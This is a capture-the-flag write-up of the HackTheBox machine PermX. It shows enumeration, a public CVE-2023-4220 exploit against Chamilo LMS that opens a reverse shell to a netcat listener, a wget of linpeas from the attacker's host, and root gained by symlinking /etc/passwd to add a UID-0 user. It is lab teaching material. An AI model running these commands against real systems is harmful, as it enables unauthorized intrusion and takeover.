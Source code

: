 ```yaml
---
title: PermX - HackTheBox Write-Up
date: 2024-09-28
description: A write-up on the machine PermX.
author: PrintN
---
```

![Image 0](0.webp)
## Introduction
Hello👋 Today we're going to take a look at [PermX](https://www.hackthebox.com/machines/permx) machine on HackTheBox by mtzsec. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] permx.htb
```

## Enumeration
We'll start by scanning for open ports with Nmap.
![Screenshot 1](1.webp)

We get port 80 and 22, which means there is a website running. There is nothing much of interest on the homepage.
![Screenshot 2](2.webp)

So let's try to see if there are any interesting directories, we'll use Gobuster for that.
```bash
gobuster dir -u http://permx.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![Screenshot 3](3.webp)

Hmmm. Let's try to find some subdomains with ffuf.
```bash
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 18
```
![Screenshot 4](4.webp)

And we got something. Let's try checking ```lms.permx.htb``` out. Remember to first add it to our ```/etc/hosts```.
![Screenshot 5](5.webp)

## Getting Access
We now know that the website uses Chamilo. Let's try do a quick search on any exploits on Chamilo. And we find **CVE-2023-4220** and a exploit script:

[https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)
```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
cd chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
```
Set up a listener with ```nc -lvnp 443``` and then we can run the main.py.
```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
![Screenshot 6](6.webp)
![Screenshot 7](7.webp)

And we get a shell! Now we want to run [linpeas](https://github.com/peass-ng/PEASS-ng/releases) to find any vulnerbilities, so let's start a http server with python on our attacker machine.
```bash 
python -m http.server
```
In our shell we run.
```bash
wget http://10.10.14.34:8000/linpeas.sh
```
![Screenshot 8](8.webp)
![Screenshot 9](9.webp)

We get a password from the configuration.php. Now we only need the username to be able to ssh. Which we see is ```mtz``` by going to the home directory.

![Screenshot 10](10.webp)

Let's ssh into ```mtz``` with the password ```03F6lY3uXAP2bkW8```
![Screenshot 11](11.webp)

And we get our first flag!

![Screenshot 12](12.webp)

## Privilege Escalation
We start by running ```sudo -l``` and we se that we can run ```/opt/acl.sh``` as root.
![Screenshot 13](13.webp)
Let's take a look at ```/opt/acl.sh```.
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This script lets the user ```mtz``` change file permissions for any user, but only for files in the ```/home/mtz``` directory. It also blocks us from using path traversal.

What we can do is make a symlink to the ```/etc/passwd``` inside the ```/home/mtz``` and then add a privileged user.

So we first have to generate a password hash.

![Screenshot 14](14.webp)
```bash
mkdir /tmp
cd /tmp
ln -s /etc/passwd passwd
sudo /opt/acl.sh mtz rwx /home/mtz/tmp/passwd
echo 'printn:$1$IeeL.gZ3$gs5hdreEStMsIs6wN.lVn0:0:0:root:/root:/bin/bash' >> /home/mtz/tmp/passwd
```
After running the commands above our user should now be added to the ```/etc/passwd```. Now we can just ```su printn``` with the password ```printn```.

And we get root. We can now get the last flag 🥳 

![Screenshot 15](15.webp)